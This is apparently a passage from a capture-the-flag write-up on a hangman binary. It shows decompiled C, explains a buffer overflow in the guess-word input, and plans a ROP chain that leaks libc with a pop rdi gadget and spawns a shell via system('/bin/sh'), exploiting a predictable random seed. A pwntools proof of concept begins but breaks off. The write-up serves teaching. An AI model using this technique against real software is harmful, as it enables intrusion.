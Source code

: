 ```c
  else
  {
    puts("You guessed wrong!");
    puts((&hangmen)[attempts]);
    puts(currentGuess);
    return ++attempts;
  }
}

__int64 __fastcall checkWord(const char *a1, const char *a2)
{
  size_t v2; // rax

  v2 = strlen(a1);
  if ( !strncmp(a1, a2, v2) )
  {
    puts("Congrats! You guessed the word, enjoy the win, hangman master ;)");
    exit(1);
  }
  puts("You guessed wrong!");
  puts((&hangmen)[attempts]);
  puts(currentGuess);
  return (unsigned int)++attempts;
}
```

We were given 7 attempts to guess the random word that generated previously. We have 3 options: guess a letter, directly guess the word, or give up and back to the main menu. Notice that in the guess word section, the program asks us for `2 * v5` bytes of input where `v5` is the length of the random word. That can lead to buffer overflow bug if `2 * v5` is greater than the size of the input buffer `v2`, i.e. 23 bytes. Since almost all words has 18 bytes, the condition easily satisfied, but the overflow size is so small we can't do anything useful. Fortunately, there is one word that has larger length, i.e. the last word that i mentioned before. It has 36 bytes length that makes us have `2 * 36 - 23 = 49 bytes` overflow. That's enough bytes to place 3 ROP gadgets for our exploit.

Let's see what useful gadgets we have from the binary.

```
...
0x00000000004012be : pop rdi ; ret
...
```

Cool! We have `pop rdi` gadget to set the first argument of a function call. It can be used to call `puts(puts)` to leak libc address. After we get the libc address, we can simply call `system("/bin/sh")` and get a shell.

But there is a problem: the word is randomly choosen from the array. In this case, it is actually not a problem since we knew the seed of the pseudo-random generator that makes the random word became predictable. So, we just have to continously generate random word until we get the word we want.

#### POC

```python
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL

context.terminal = "kitty @launch --location=split --cwd=current".split()


def start():
    if args.LOCAL:
        if args.GDB:
            return gdb.debug(
```
